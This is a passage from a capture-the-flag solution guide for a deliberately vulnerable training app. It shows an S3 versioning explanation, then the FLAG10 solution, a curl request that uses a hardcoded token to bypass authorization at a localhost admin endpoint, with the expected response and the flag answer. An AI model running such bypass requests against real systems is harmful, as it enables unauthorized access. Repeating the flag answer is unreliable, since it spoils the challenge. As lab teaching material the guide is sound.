 ### Why This is Vulnerable
- S3 versioning keeps deleted files accessible
- No lifecycle policies to purge old versions
- Sensitive files (`.env.backup`) committed to object storage
- Fix: Enable lifecycle policies, encrypt versioned objects, never store secrets in S3

---

## FLAG10: Compliance Override (300 points) - Hard

### Vulnerability
Business Logic - Authorization Bypass

### What You'll Learn
- Exploiting hardcoded bypass tokens
- Understanding business logic flaws
- Recognizing weak authorization checks

### Solution

Step 1: Force compliance status with the magic token
```bash
curl -X POST "http://localhost:8000/api/admin/force-compliance?framework=soc2&status=passed&token=compliance_override_2024"
```

Expected Response:
```json
{
  "success": true,
  "framework": "soc2",
  "new_status": "passed",
  "override_by": "system",
  "flag": "flag{compliance_by_css}"
}
```

Flag: `flag{compliance_by_css}`

### Why This is Vulnerable
- Hardcoded bypass token `compliance_override_2024`
- No actual admin authentication required
- Business logic allows arbitrary compliance status changes
- Fix: Remove bypass tokens, implement proper RBAC, audit all compliance changes

---

## FLAG11: Debug Mode Exposed (100 points) - Easy

### Vulnerability
Information Disclosure - Debug Endpoints in Production
